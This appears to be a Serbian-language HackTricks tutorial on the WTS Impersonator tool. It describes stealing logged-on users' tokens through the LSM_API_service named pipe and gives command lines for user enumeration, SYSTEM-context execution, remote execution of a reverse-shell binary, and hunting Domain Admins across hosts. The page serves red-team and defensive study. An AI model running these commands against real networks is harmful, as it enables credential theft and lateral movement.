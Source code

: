 # WTS Impersonator

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

Alat **WTS Impersonator** iskorišćava **"\pipe\LSM\_API\_service"** RPC Imenovane cijevi da tajno nabroji prijavljene korisnike i preuzme njihove tokene, zaobilazeći tradicionalne tehnike impersonacije tokena. Ovaj pristup olakšava neprimetno lateralno kretanje unutar mreža. Inovacija iza ove tehnike pripada **Omri Baso-u, čiji rad je dostupan na** [**GitHub-u**](https://github.com/OmriBaso/WTSImpersonator).

#### Osnovna funkcionalnost

Alat funkcioniše kroz niz API poziva:

```powershell
WTSEnumerateSessionsA → WTSQuerySessionInformationA → WTSQueryUserToken → CreateProcessAsUserW
```

#### Ključni moduli i upotreba

* **Nabrajanje korisnika**: Alat omogućava lokalno i udaljeno nabrajanje korisnika, koristeći odgovarajuće komande za svaki scenario:
* Lokalno:

```powershell
.\WTSImpersonator.exe -m enum
```

* Udaljeno, navođenjem IP adrese ili imena hosta:

```powershell
.\WTSImpersonator.exe -m enum -s 192.168.40.131
```

* **Izvršavanje komandi**: Moduli `exec` i `exec-remote` zahtevaju **Service** kontekst za funkcionisanje. Lokalno izvršavanje jednostavno zahteva izvršnu datoteku WTSImpersonator i komandu:
* Primer za lokalno izvršavanje komande:

```powershell
.\WTSImpersonator.exe -m exec -s 3 -c C:\Windows\System32\cmd.exe
```

* PsExec64.exe se može koristiti za dobijanje Service konteksta:

```powershell
.\PsExec64.exe -accepteula -s cmd.exe
```

* **Udaljeno izvršavanje komandi**: Uključuje kreiranje i instaliranje servisa na daljinu, slično kao PsExec.exe, omogućavajući izvršavanje sa odgovarajućim dozvolama.
* Primer udaljenog izvršavanja:

```powershell
.\WTSImpersonator.exe -m exec-remote -s 192.168.40.129 -c .\SimpleReverseShellExample.exe -sp .\WTSService.exe -id 2
```

* **Modul za pronalaženje korisnika**: Cilja određene korisnike na više mašina, izvršavajući kod pod njihovim akreditivima. Ovo je posebno korisno za ciljanje Domain Admins sa lokalnim administratorskim pravima na više sistema.
* Primer upotrebe:

```powershell
.\WTSImpersonator.exe -m user-hunter -uh DOMAIN/USER -ipl .\IPsList.txt -c .\ExeToExecute.exe -sp .\WTServiceBinary.exe
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
